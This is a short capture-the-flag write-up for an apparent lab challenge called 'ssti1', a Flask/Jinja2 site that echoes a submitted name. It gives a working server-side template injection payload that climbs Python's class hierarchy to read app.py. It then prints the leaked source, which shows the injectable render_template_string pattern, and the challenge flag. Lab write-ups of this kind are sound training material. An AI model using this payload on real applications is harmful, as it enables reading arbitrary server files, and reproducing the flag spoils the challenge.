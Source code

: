 # ssti1

## What it is

A website made with flask that uses jinja2 for templating.

It takes a name in an input field and displays it.

## Solution

From a string literal you can get the base class and open a file ([source](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)).

To get the content of ```app.py```:
```py
{{'abc'.__class__.__base__.__subclasses__()[96].__subclasses__()[0].__subclasses__()[0]('app.py').read()}}
```

We get:
```py
b'from flask import Flask, request, render_template_string, config\n\n\napp = Flask(__name__)\n\napp.config["FLAG"] = "BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}"\n\n\n@app.route("/")\ndef index():\n    name = request.args.get("username", "guest")\n    template = open("./index.html").read().format(name)\n    return render_template_string(template)\n\n\nif __name__ == "__main__":\n    app.run()\n'
```

After formatting:
```py
from flask import Flask, request, render_template_string, config

app = Flask(__name__)

app.config["FLAG"] = "BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}"

@app.route("/")
def index():
	name = request.args.get("username", "guest")
	template = open("./index.html").read().format(name)
	return render_template_string(template)

if __name__ == "__main__":
    app.run()
```

flag: ```BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}```
